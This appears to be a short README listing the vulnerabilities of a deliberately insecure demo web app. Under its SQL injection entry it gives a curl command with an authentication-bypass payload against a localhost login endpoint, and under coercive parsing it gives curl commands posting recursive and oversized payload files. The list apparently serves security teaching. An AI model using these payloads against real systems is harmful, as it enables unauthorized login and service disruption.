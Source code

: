 Vulnerabilities:
 
0. Sensitive info saved unencrypted

1. Parameters tampering
 - Body params tampering
 - Cookie tampering 

2. SQL Injection
    curl --data "email=a' OR '1'='1&password=a' OR '1'='1" http://localhost:3000/sessions.json

3. Coercive Parsing
 - Recursive Payloads
    curl --data @recursive.txt http://localhost:3000/sessions.json
 - Oversized Payloads
    curl --data @oversized.txt http://localhost:3000/sessions.json

4. Session Hijacking

